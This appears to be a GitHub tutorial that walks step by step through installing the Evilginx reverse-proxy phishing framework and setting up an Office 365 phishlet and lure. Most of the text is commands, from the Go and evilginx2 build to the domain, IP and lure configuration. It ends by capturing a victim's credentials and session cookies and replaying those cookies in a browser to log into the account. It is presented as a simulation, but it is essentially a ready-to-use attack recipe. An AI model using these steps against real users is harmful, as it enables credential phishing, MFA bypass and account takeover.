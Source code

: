 Before proceeding with the installation of Evilginx, let’s ensure that wget is installed on the VPS.

```bash
sudo apt update 
sudo apt install wget -y
```bash

Next, let’s download the Go installation files.
wget https://golang.org/dl/go1.17.linux-amd64.tar.gz

Install Go by executing the following command:
sudo tar -zxvf go1.17.linux-amd64.tar.gz -C /usr/local/

Next, configure the PATH environment variable by running:
echo "export PATH=/usr/local/go/bin:${PATH}" | sudo tee /etc/profile.d/go.sh 
source /etc/profile.d/go.sh

Execute the following commands to clone the source files from GitHub:
sudo apt-get -y install git make 
git clone https://github.com/BakkerJan/evilginx2.git 
cd evilginx2 
make

After completing the cloning process, we can proceed to install Evilginx globally and run it.
sudo make install 
sudo evilginx

Now it is time to configure evilginx. We are going to simulate this with a Microsoft 365 account. For my domain, I am doing evilginxtest.shop. For my IP, it is: 52.144.47.242

config domain <yourdomain> 
config ip <yourIP> 
blacklist unauth

Next, let’s configure the Office 365 phishlet to match our domain.
phishlets hostname o365 <yourdomain> 
phishlets enable o365

If you encounter an SSL/TLS error at this stage, it indicates that your DNS records are not yet in place. When a phishlet is enabled, Evilginx attempts to obtain a free SSL certificate from LetsEncrypt for the new domain.
However, this process requires the domain to be accessible. Once the new SSL certificate is successfully activated, you can anticipate some traffic from scanners. If you’ve previously adjusted the blacklist to “unauth,” these scanners will be blocked.

In the next step, we’ll set the lure for the Office 365 phishlet and define the redirect URL. This URL comes into play after the credentials are phished and can be customized according to your preferences. For this example, we’ll use https://portal.office.com/.

lures create o365 
lures edit 0 redirect_url https://portal.office.com 
lures get-url 0

Our phishlet is now active and accessible via the URL https://login.evilginxtest.shop/RdgjuhBs (no longer active). When accessing the URL from the lure, you’ll be treated as an authenticated session, thus avoiding being blocked. 

Let us see what happens when a user goes to this link:

It seems like a regular microsoft login page.
![image](https://github.com/user-attachments/assets/dcf20d05-6fe2-40ff-97de-4fdee2eb6d06)

After entering the username and password, the user's credentials are caught through the reverse proxy the malicious domain simulates
![image](https://github.com/user-attachments/assets/b8fb9489-1cb8-4d6c-a3fc-38e4b8ee562f)

After a full sign in, we have got the session cookies. We can use the command "Sessions 0" (mine may be a different number, because I had multiple.)
![image](https://github.com/user-attachments/assets/8f293e48-b323-4167-8566-2102eec0da22)

And there you go. If you copy and paste these cookies after clearing your own into a cookie extension on your browser while on office.com, you refresh the page and you are in!





